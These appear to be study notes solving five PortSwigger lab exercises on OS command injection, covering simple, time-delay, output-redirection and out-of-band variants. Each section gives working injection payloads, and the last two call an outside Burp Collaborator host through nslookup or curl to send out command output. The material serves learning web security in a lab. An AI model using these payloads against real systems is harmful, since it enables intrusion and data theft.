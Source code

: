 # Table of Contents

- [[#OS command injection, simple case]]
- [[#Blind OS command injection with time delays]]
- [[#Blind OS command injection with output redirection]]
- [[#Blind OS command injection with out-of-band interaction]]
- [[#Blind OS command injection with out-of-band data exfiltration]]

# OS command injection, simple case
Reference: https://portswigger.net/web-security/os-command-injection/lab-simple

```ad-hint
title: Quick Solution
Intercept the **check stock** request and modify the ``storeId`` parameter to:
~~~
%26whoami%26
~~~
The payload provided by PortSwigger is a little bit different, but the result is the same.
```

```ad-done
title: Solution
1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the ``storeID`` parameter, giving it the value ``1|whoami``.
3. Observe that the response contains the name of the current user.
```

# Blind OS command injection with time delays
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

```ad-hint
title: Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
~~~
%26sleep%2010%26
~~~
```

```ad-done
title: Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
~~~
email=x||ping+-c+10+127.0.0.1||
~~~
3. Observe that the response takes 10 seconds to return.
```

# Blind OS command injection with output redirection
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection

```ad-hint
title: Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
``~~~`
%26whoami>whoami.txt%26
~~~
```

```ad-done
title: Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
~~~
email=||whoami>/var/www/images/output.txt||
~~~
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the ``filename`` parameter, changing the value to the name of the file you specified for the output of the injected command:
~~~
filename=output.txt
~~~
5. Observe that the response contains the output from the injected command.
```

# Blind OS command injection with out-of-band interaction
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

```ad-hint
title: Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
~~~
%26nslookup%20your-burp-collaborator%26
~~~
```

```ad-done
title: Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
~~~
email=x||nslookup+x.burpcollaborator.net||
~~~
```

# Blind OS command injection with out-of-band data exfiltration
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration

```ad-hint
title: Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
~~~
%26curl%20your-burp-collaborator/$(whoami)%26
~~~
```

```ad-done
title: Solution
1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the ``email`` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
~~~
email=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||
~~~
5. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Burp Collaborator client. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.
```
